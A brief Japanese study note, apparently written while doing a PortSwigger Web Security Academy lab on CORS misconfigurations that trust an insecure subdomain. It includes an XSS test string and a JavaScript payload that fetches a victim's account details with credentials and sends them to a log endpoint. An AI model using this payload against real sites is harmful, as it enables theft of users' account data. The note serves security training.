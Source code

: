 
Date: 2025-09-19
Tags: 
Links: [[WSA]], [[CORS]]

***

脆弱なサブドメインなどを信頼している（Access-Control-Allow-Origin)。
サブドメインの脆弱性を利用

***
# Lab

1. 被害サイトはサブドメインのオリジンを信頼する設定。
2. サブドメインでXSS脆弱性が見つかる。URLに含めたjavascriptがそのまま実行される。
```http
GET /?productId=2<script>alert(1)</script>&storeId=2 
```

3. スクリプトを被害者に送る
```javascript
<script> 
	var req = new XMLHttpRequest(); 
	req.onload = reqListener;
	req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
	req.withCredentials = true;
	req.send();
	  
	 function reqListener() { 
		 location='/log?key='+this.responseText;
	 }; 
 </script>
```
これをURLエンコードして
```javascript
<script>
 document.location='http://---/?productId=2<script>alert(1)</script>&storeId=2
</script>
```
に差し込む。


***
# References

https://portswigger.net/web-security/learning-paths/cors/cors-vulnerabilities-arising-from-cors-configuration-issues/cors/lab-breaking-https-attack#